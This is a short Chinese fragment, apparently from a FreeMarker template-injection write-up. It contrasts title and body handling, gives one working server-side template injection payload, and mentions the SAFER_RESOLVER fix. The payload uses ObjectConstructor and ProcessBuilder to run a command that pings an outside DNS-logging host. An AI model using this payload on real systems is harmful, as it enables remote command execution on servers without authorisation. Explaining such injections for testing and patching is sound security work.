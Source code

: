 标题执行了标签，正文不能执行标签

![image-20220217135245231](FreeMarker模板注入实例.assets/image-20220217135245231.png)



正文只能执行插值`${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","ping 4374587f.dns.1433.eu.org -c 8").start()}`

![image-20220217135121865](FreeMarker模板注入实例.assets/image-20220217135121865.png)

显然，它配置了cfg.setNewBuiltinClassResolver(SAFER_RESOLVER);用来修复漏洞。
